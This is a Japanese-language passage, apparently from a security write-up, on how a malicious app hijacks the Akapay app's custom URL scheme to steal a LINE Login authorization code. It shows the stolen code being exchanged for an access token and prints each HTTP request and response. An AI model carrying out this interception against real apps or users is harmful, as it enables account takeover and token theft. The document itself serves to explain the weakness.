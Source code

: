 認可コードを横取りした偽アプリは、Akapayアプリになりすましてアクセストークンを要求する。SafariからLINEログインした後、Akapayへの認可画面を表示する際のGETリクエストが認可要求である。認可要求の `redirect_uri` にはAkapayアプリのカスタムURLスキームが含まれる。このスキームはLINEログインのチャネルに登録しているため、認可サーバーは正規アプリへのリダイレクトURIとして判断する。

```http
GET /oauth2/v2.1/authorize/consent
    ?response_type=code
    &client_id=██████████
    &scope=profile
    &state=WyzSEFbiQojxI0nKJ5gyuJVStgxeTify57e25kHPR7o
    &redirect_uri=line3rdp.io.akaki.akapay://authorize/ HTTP/1.1
Host: access.line.me
...
```

Akapayを認可するとPOSTリクエストが発生し、それに対するレスポンスのLocationヘッダに認可コードである `code` が付与される。

```http
POST /oauth2/v2.1/authorize/consent HTTP/1.1
Host: access.line.me
...
```

```http
HTTP/1.1 302 Found
location: line3rdp.io.akaki.akapay://authorize/
    ?code=7hrxXGkHnAlmgRg3oN6z
    &state=WyzSEFbiQojxI0nKJ5gyuJVStgxeTify57e25kHPR7o
...
```

Locationヘッダに設定されるカスタムURLスキームは偽アプリに乗っ取られているため、リダイレクトにより認可コードが偽アプリに横取りされる。偽アプリは横取りした認可コードを含めたアクセストークン要求を認可サーバーへ送信する。認可サーバーは偽アプリからの不正な要求を検知できずにアクセストークンを発行する。

```http
POST /oauth2/v2.1/token HTTP/1.1
Host: api.line.me
...

client_id=██████████
&grant_type=authorization_code
&code=7hrxXGkHnAlmgRg3oN6z
&redirect_uri=line3rdp.io.akaki.akapay://authorize/
```

```http
HTTP/1.1 200 OK
...

{
    "access_token": "eyJhbGciOiJIUzI1NiJ9._utnquoDbhxVaFkT-PF479x-oG1vsz04QDuMQfO-HTiDY4cbBu8rR943iNT6TC5f3-cijsdUzSPCHjllhnC_x9At2LMJ1lYsZjNoRfbfzCERlgVnP_P7RZTiGYL85h0mN3zlaAyCTJi1xwO5av7twf1iA9PGspz1PWpIHEHetHA.QkR9WDRrR_r4tjIp3SJF-b4OAmJ1r83uMLXVzRDpDB4",
    "token_type": "Bearer",
    "refresh_token": "XewGVk2mNAE2gQHKwsIt",
    "expires_in": 43200,
    "scope": "profile"
}
```
